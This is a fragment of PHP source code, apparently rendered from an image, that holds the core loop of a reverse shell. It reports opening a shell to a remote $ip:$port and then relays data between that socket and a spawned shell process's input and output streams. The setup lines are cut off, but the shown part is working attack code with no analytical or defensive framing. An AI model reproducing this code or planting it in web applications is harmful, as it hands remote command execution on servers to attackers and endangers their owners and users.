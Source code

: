 ```
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {

 if (feof($sock)) {
  printit("ERROR: Shell connection terminated");
  break;
 }

 if (feof($pipes[1])) {
  printit("ERROR: Shell process terminated");
  break;
 }

 $read_a = array($sock, $pipes[1], $pipes[2]);
 $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

 if (in_array($sock, $read_a)) {
  if ($debug) printit("SOCK READ");
  $input = fread($sock, $chunk_size);
  if ($debug) printit("SOCK: $input");
  fwrite($pipes[0], $input);
 }

 if (in_array($pipes[1], $read_a)) {
  if ($debug) printit("STDOUT READ");
  $input = fread($pipes[1], $chunk_size);
  if ($debug) printit("STDOUT: $input");
  fwrite($sock, $input);
 }

 if (in_array($pipes[2], $read_a)) {
  if ($debug) printit("STDERR READ");
  $input = fread($pipes[2], $chunk_size);
  if ($debug) printit("STDERR: $input");
  fwrite($sock, $input);
 }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
 if (!$daemon) {
  print "$string\n";
 }
}

?>
```
